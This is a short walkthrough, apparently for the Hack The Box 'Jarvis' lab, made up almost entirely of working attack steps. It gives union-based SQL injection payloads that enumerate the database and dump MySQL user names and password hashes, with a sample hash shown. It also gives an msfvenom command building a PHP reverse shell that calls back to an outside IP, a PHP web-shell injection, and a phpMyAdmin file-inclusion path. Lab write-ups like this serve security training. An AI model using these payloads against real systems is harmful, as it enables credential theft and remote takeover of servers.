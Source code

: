 ### Interesting with no quote needed
`1 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL`

### Extract the databases'name(schema_name)
```sql
+UNION+SELECT+"1",group_concat(schema_name),3,4,5,"6","7"+from+information_schema.schemata

schema_name:
hotel,mysql
```

### Extract the tables'name(table_name)
```sql
+UNION+SELECT+"1",group_concat(table_name),3,4,5,"6","7"+fRoM+information_schema.tables+wHeRe+table_schema='hotel'

room
```
```sql
+UNION+SELECT+"1",group_concat(table_name),3,4,5,"6","7"+fRoM+information_schema.tables+wHeRe+table_schema='mysql'
```
<a href="/room.php?cod=1">column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user</a>


### Extract the columns'name(column_name)
```sql
+UNION+SELECT+"1",group_concat(column_name),3,4,5,"6","7"+fRoM+information_schema.columns+wHeRe+table_name='room'
```
cod,name,price,descrip,star,image,mini

```sql
+UNION+SELECT+"1",group_concat(column_name),3,4,5,"6","7"+fRoM+information_schema.columns+wHeRe+table_name='user'
```
<a href="/room.php?cod=1">Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time</a>

### Exfiltrate data
```sql
+UNION+SELECT+"1",User,3,Password,5,"6","7"+fRoM+mysql.user
```
DBadmin
2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

### Payload
```bash
msfvenom --platform php -a php -e php/base64 -p php/reverse_php LHOST=10.10.16.9 LPORT=443 -o payload.php
```

##### Manual way
https://www.exploit-db.com/exploits/44928
```sql
select '<?php system($_GET["cmd"]);?>'
```

```
/index.php?cmd=id&target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_vg87dt831jhjn1v9r67n5lqm819iidfh
```


https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html#path-1-phpmyadmin